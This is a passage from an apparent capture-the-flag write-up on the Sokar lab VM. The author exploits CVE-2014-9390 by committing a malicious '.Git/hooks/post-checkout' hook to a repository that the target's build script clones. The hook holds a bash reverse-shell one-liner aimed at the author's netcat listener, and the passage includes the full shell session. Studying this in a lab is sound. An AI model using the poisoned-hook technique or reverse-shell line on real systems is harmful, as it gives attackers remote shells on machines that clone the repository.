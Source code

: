 Done. Working from a PoC exploit found [here](https://gitlab.com/mehmet/cve-2014-9390), I continued to prepare a similar exploit, except for the fact that I changed the actual hook to connect to my Mac (hosting the VM's) on a `tcp/22` netcat listener, spawning a shell. I knew `tcp/22` traffic was allowed due to the SSH host key verification step that needed some work :)

```bash
leonjza@kali/sokar/secret-project | git:master $ mkdir .Git
leonjza@kali/sokar/secret-project | git:master $ cd .Git
leonjza@kali/sokar/secret-project/.Git | git:master $ mkdir hooks
leonjza@kali/sokar/secret-project/.Git | git:master $ cd hooks
leonjza@kali/sokar/secret-project/.Git/hooks | git:master $ vim post-checkout
leonjza@kali/sokar/secret-project/.Git/hooks | git:master $ cat post-checkout
#!/bin/sh
bash -i >& /dev/tcp/192.168.217.1/22 0>&1
leonjza@kali/sokar/secret-project/.Git/hooks | git:master $ chmod +x ./post-checkout
leonjza@kali/sokar/secret-project/.Git/hooks | git:master $ git add -A
leonjza@kali/sokar/secret-project/.Git/hooks | git:master $ git commit -m 'pwnd'
[master (root-commit) ee364fd] pwnd
 Committer: root <root@localhost.localdomain>

 1 file changed, 2 insertions(+)
 create mode 100755 .Git/hooks/post-checkout
leonjza@kali/sokar/secret-project/.Git/hooks | git:master $ git push -u origin master
root@127.0.0.1's password:
Counting objects: 5, done.
Compressing objects: 100% (2/2), done.
Writing objects: 100% (5/5), 345 bytes, done.
Total 5 (delta 0), reused 0 (delta 0)
To ssh://127.0.0.1/root/secret-project
 * [new branch]      master -> master
Branch master set up to track remote branch master from origin.
leonjza@kali/sokar/secret-project/.Git/hooks | git:master $
```

With my evil repository ready, it was time to try that `build` again :)

```bash
[apophis@sokar ~]$ ./build
./build
Build? (Y/N) Y
Y
Cloning into '/mnt/secret-project'...
root@sokar-dev's password: # redact lol

remote: Counting objects: 5, done.
remote: Compressing objects: 100% (2/2), done.
Receiving objects: 100% (5/5), done.
remote: Total 5 (delta 0), reused 0 (delta 0)
Checking connectivity... done.

```

This shell just 'hung' there, however, the netcat listener on my Mac had a different story to tell:
